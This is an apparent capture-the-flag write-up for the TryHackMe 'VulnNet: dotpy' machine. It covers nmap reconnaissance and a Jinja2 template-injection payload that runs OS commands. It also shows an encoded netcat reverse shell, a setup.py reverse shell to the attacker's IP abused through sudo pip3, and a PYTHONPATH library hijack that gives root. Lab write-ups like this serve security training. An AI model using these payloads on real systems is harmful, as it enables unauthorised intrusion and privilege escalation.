

| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/vulnnetdotpy)  | Medium  |  [TheCyb3rW0lf](https://tryhackme.com/p/TheCyb3rW0lf)  |


## Reconn

We are scanning this machine first with `nmap` to check which ports are open/close/filtered.

```bash
╰─ lanfran@parrot ❯ map 10.10.43.197                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-12 12:49 CEST
Nmap scan report for 10.10.43.197
Host is up (0.067s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.43.197:8080/login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.12 seconds
```

Good! We have a `Python` web server running on port 8080.

Let's browse to it.

The page request us to login/register. But I tried to navigate to a non-existing page


Mmmm a 403 page, requisting us to login...

So let's do it, create a dummy user and login, so we can navigate to that page again...

Once loged in, navigate again to the non-existing page and let's see something very interesting


The page show us the requested endpoint, maybe we can exploit this...

So I used the common `{{7*7}}` exploit to check if it is vulnerable, and it returned 49!!


## Foothold - User

So we can exploit this with the following code.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('###CODE###')|attr('read')()}}
```
Where says `###CODE###` you can just put your system command, so let's use `burpsuite` to send the request with `id` and see which user are we


Good! We are the `web` user, let's encode our shell to hex so we can run it, here you have the shell and the perfect encoding in a [Cyberchef recipe](https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgSVAgMTMzNyA%2BL3RtcC9m) !

Send it with burpsuite, and get your reverse shell with `netcat`



Perfect! We now have a reverse shell, so let's first run `sudo -l` to see if our user can run a command with any other user
```bash
web@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
web@vulnnet-dotpy:~$
```
Interesting, we can run `pip3 install` with user `system-adm`...

Reading the [GTFOBins](https://gtfobins.github.io/gtfobins/pip/#shell) page, I created another reverse shell payload:

```bash
########VICTIM
web@vulnnet-dotpy:/tmp/project$ cat setup.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.160",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
web@vulnnet-dotpy:/tmp/project$ sudo -u system-adm /usr/bin/pip3 install .
Processing /tmp/project

########ATTACKER

╰─ lanfran@parrot ❯ nc -nlvp 1338                                                                                                  ─╯
listening on [any] 1338 ...
connect to [10.9.2.160] from (UNKNOWN) [10.10.43.197] 45420
$ id
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)
w$whoami
system-adm
$ cat /home/system-adm/user.txt
THM{[REDACTED]}
$
```

And now we can read the user's flag!

## Root

Once again with this new user, run `sudo -l` and we get this output:

```bash
system-adm@vulnnet-dotpy:~$ sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

So we can exploit a Pythonpath vulnerability, in this easy steps:


1. Create a malicious "python lib" named "zipfile.py" (That's being used by the script `backup.py`) in `/tmp`
2. Run this command `sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py`

1) 	
```bash
system-adm@vulnnet-dotpy:~$ echo 'import pty; pty.spawn("/bin/bash")' > /tmp/zipfile.py
system-adm@vulnnet-dotpy:~$ cat /tmp/zipfile.py 
import pty; pty.spawn("/bin/bash")
```
2)
```bash
system-adm@vulnnet-dotpy:~$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py
root@vulnnet-dotpy:/home/system-adm# id
uid=0(root) gid=0(root) groups=0(root)
root@vulnnet-dotpy:/home/system-adm# whoami
root
root@vulnnet-dotpy:/home/system-adm# cat /root/root.txt 
THM{[REDACTED]}
root@vulnnet-dotpy:/home/system-adm# 
```

And we rooted the machine!

That's all from my side, hope you find this helpful!